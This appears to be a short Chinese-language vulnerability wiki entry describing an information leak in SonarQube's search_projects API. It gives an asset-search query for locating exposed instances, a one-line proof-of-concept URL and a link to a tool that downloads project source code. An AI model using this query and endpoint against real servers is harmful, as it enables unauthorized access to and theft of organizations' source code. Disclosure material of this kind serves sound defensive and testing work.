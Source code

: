 # SonarQube search_projects 项目信息泄露漏洞

## 漏洞描述

SonarQube 某接口存在信息泄露漏洞，可以通过工具下载源码

## 漏洞影响

<a-checkbox checked>SonarQube</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="sonarQube-代码管理"</a-checkbox></br>

## 漏洞复现

主页如下

![img](/assets/PeiQi-Wiki/img/1628578104263-4058ad67-3556-4948-bb84-80b780f6a808.png)



漏洞POC

```plain
http://xxx.xxx.xxx.xxx/api/components/search_projects
```

![img](/assets/PeiQi-Wiki/img/1628578139002-6ae5f685-2e56-488e-9bd8-ca7c17d40416.png)

可通过工具下载项目中的源代码 



https://github.com/deletescape/sloot

![img](/assets/PeiQi-Wiki/img/1628578178570-b0b44348-d38e-4988-975a-f7540c3871c1.png)